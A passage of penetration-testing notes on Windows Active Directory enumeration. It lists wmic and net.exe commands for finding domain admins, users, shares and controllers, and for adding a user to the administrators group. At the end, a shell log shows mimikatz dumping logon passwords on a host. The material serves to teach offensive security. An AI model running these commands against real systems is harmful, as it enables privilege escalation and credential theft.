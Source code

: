 | `wmic sysaccount list /format:list` |	Dumps information about any system accounts that are being used as service accounts. |

This [cheatsheet](https://gist.github.com/xorrior/67ee741af08cb1fc86511047550cdaf4) could help us.

### Net Commands 

We can list information such as:
- Local and domain users
- Groups
- Hosts
- Specific users in groups
- Domain Controllers
- Password requirements

Using the `net.exe` binary:

| **Command**   | **Description**    |
|--------------- | --------------- |
| `net accounts` | Information about password requirements |
| `net accounts /domain` |	Password and lockout policy |
| `net group /domain` |	Information about domain groups |
| `net group "Domain Admins" /domain` |	List users with domain admin privileges |
| `net group "domain computers" /domain` |	List of PCs connected to the domain |
| `net group "Domain Controllers" /domain` |	List PC accounts of domains controllers |
| `net group <domain_group_name> /domai` |n	User that belongs to the group |
| `net groups /domain` |	List of domain groups |
| `net localgroup` |	All available groups |
| `net localgroup administrators /domain` |	List users that belong to the administrators group inside the domain (the group Domain Admins is included here by default) |
| `net localgroup Administrators` |	Information about a group (admins) |
| `net localgroup administrators [username] /add` |	Add user to administrators |
| `net share` |	Check current shares |
| `net user <ACCOUNT_NAME> /domain` |	Get information about a user within the domain |
| `net user /domain` |	List all users of the domain |
| `net user %username%` |	Information about the current user |
| `net use x: \computer\share` |	Mount the share locally |
| `net view` |	Get a list of computers |
| `net view /all /domain[:domainname]` |	Shares on the domains |
| `net view \computer /ALL` |	List shares of a computer |
| `net view /domain` |	List of PCs of the domain |


[DEV01]: PS C:\Users\backupadm\Documents> cd 'C:\Users\Public\'
[DEV01]: PS C:\Users\Public> .\mimikatz "privilege::debug" "sekurlsa::logonpasswords" exit 
[DEV01]: PS C:\Users\Public> tasklist /V |findstr backupadm